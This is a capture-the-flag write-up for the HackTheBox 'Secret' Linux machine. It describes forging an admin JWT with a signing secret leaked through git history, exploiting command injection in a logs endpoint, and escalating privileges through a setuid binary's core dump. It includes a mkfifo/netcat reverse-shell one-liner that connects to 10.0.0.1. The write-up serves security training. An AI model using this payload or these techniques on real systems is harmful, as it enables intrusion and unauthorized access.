


# Secret HackTheBox Writeup
### Level: `Easy` | OS: `Linux`


## Scanning
We run nmap on all ports with scripts and software versions.


## Enumeration
We find the API documentation, we have to authenticate using a *JWT*.


If we try to access without a token, we see that we do not have access to the resource.


If we check the site, there is a link that allows us to download the code.

To get to the point, the file "*private.js*" shows the role and username of the administrator user of the application.


Using the authentication example from the documentation above, we see that the user "*theadmin*" is registered with the e-mail address "*root@dasith.works*":


We register a user.


We decode the *JWT* and see the data it contains.



We access the previous resource, but we still cannot access it because we are a user with a low privilege role.


We continue with the enumeration, we identify a "*.git*" and we see that they have made some modification in the "*.env*" file.


We retrieve the file and read its contents, we find the "*token_secret*". This token would allow us to modify our JWT and be able to make arbitrary modifications on it.


We add the attribute *"role": "admin"* and change our user to "*theadmin*" in our cookie and authenticate, we check that now it works and we have access as the user "*theadmin*".


## Exploitation
Reviewing the sections of the site, we see that the resource "*logs?file=*" is vulnerable to **Command Injection**:


We can exploit this vulnerability to read the "*user.txt*" file.


We use the following payload to gain access (remember to encode it in URL), put a **netcat** listening and send the request from **Burp**.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```


We list an uncommon setuid binary named "*/opt/count*". 

We see that the resource has the permissions of the root user.


We launch **dirsearch**, we will list the file "*installer/subiquity-server-debug.log*", it contains the hashed credentials of the users used in the application.


We tried to crack the hash of the user "*dasith*", but failed. So we will put our public key in the user's "*authorized_keys*" file and authenticate with our private key through the **SSH** service.


## Privilege Escalation
Now we execute this statement to cause the crashes and to store in the report log the root flag.


We check the "*CoreDump*" file and see that the root flag is in it.


---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

 [David-Uton](https://www.linkedin.com/in/david-uton/)
 [@David_Uton](https://twitter.com/David_Uton)
